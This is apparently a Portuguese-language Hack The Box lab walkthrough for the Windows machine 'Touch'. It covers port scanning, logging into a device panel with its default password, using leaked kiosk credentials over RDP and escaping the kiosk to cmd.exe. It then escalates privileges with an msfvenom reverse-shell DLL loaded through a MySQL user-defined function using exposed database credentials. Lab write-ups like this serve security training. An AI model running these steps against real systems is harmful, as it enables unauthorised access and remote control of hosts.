


# HTB_TOUCH

DIFICULDADE: Easy
PLATAFORMA: Windows
STATUS: Em andamento

```jsx
nmap -Pn -n -sV --top-ports 1000 --open --reason  -T4 --max-retries 2 10.129.74.113
```

```jsx

Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       REASON          VERSION
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Service
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8443/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Usuario

url encontrada

[http://touch.htb:8443/api/status](http://touch.htb:8443/api/status)

KioskUser



KioskUser

Agora Temos a Senha

Vamos acessar via RDP pois 3389 está aberta

xfreerdp3 /u:KioskUser  /p:'K!0sk2026#'  /v:10.129.74.113

device	"Nexion DeviceHub DH-100"
serial	"NX-DH-2024-B7042"
firmware	"1.4.2"
status	"online"
uptime	20761

Curl

```jsx
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Content-Type: text/html; charset=utf-8
Server: Microsoft-HTTPAPI/2.0
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: GET, POST, PUT, OPTIONS
Access-Control-Allow-Headers: Content-Type
Date: Tue, 06 Oct 2026 05:06:59 GMT
```

```jsx


Acessando aplicação na URL

/login

Vamos o código para acesar 

NX-DH-2024-B7042


Após logar temos várias informações inclusive user e pass para tentar um acesso ssh ou RDP


Username	KioskUser hide
Password	K!0sk2026# 

Examinando a pagina abaixo temos uma posível entrada para UPLOAD


Utilizamos a senha e user e fizemos acesso no RDP 

┌──(root㉿kali)-[/home/kali/Downloads]
└─# xfreerdp3 /u:KioskUser  /p:  /v:10.129.74.113



Passando a senha entramos no windows e temos uma aplicação TOUCH


Manipulando e deselignado a impressora e o scanner 

Vamos tentar escanerar na aplicação no Windows


Agora vamos salva a informação que surge quando clicamos no link


Apertar ctrl + s

Na tela que aparece colocamos explorer.exe ou cmd.exe

Apertar ctrl + s

E renomear o arquivo para cmd.exe


E agora quando aparecer a barra, vamos procurar a flag de user


49884f45dfae2715c1c8eb165303197b

Escalação

whoami /all


net user 


O ponto mais importante retornado pela saída é o pertencimento ao grupo local Printer Administrator. Em ambientes Windows, permissões administrativas sobre o serviço de impressão (Spooler) ou drivers de impressora costumam apresentar vetores específicos de auditoria:

Precisamos da senha de Administrador


Como nao temos senha de admin, mas sabemos que temos um MySQL rodando no Windows e temos a senha

Vamos gerar um exploit chamado evil.dll e colocar uma carga com msfvenom e vamos coloca-lo no windows e executa-lo

msfvenom -p windows/x64/shell_reverse_tcp LHOST=xx LPORT=x -f dll -o evil.dll

.\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "CREATE FUNCTION sys_exec RETURNS INT SONAME 'evil.dll';”


Após a execução do codigo no windows, lembrando que estaremos ouvindo no kali no msfvenom


Agora poderemos trabalhar com mais facilidade no Windows pois estaremos no terminal no kali

# Enumeração HTB — 10.129.74.113

## Resultados confirmados

- Rota via VPN tun0; portas abertas: 135, 3389, 5985, 8443.
- 8443 serve HTTP: Nexion DeviceHub. GET /api e /api/ retorna 403 Authentication required.
- GET /api/status sem sessão retorna 200, expondo modelo DH-100, serial, firmware 1.4.2 e estado online. Serial ocultado por funcionar como senha.
- /login informa que a senha padrão corresponde ao serial. Um único POST /login com campo password contendo esse serial criou sessão válida; GET / autenticado retorna dashboard e registro Admin login successful.
- HTML autenticado expõe credenciais de KioskUser em argumentos JavaScript. Segredos omitidos. Isso confirma exposição no painel, sem comprovar autenticação Windows.

## Rotas identificadas no código

POST /api/scanner/power; POST /api/printer/power; POST /api/scan; PUT /api/scanner/settings; PUT /api/printer/settings; POST e DELETE /api/scanner/test-image.
Páginas: /dashboard, /scanner, /printer, /logs, /settings. Há referência a [http://localhost:5173](http://localhost:5173/), sem confirmação de serviço nessa porta.
Operações de alteração dessas rotas não foram executadas.

## Interpretação e limites

A exposição pública do serial combinada com senha padrão permitiu acesso ao painel. Ocultar credenciais visualmente não remove valores do HTML.
/api/info, /api/device, /api/config e uma rota inventada retornam o mesmo redirecionamento para login: não comprova existência dessas rotas.
Acesso Windows, shell e flags não foram testados. WinRM permanece hipótese para 5985.
Scans salvos em /tmp/htb_10.129.74.113_initial.* e /tmp/htb_10.129.74.113_services.*.
Próximo passo: inspecionar páginas autenticadas e rotas de leitura; avaliar a conta exposta em RDP/WinRM.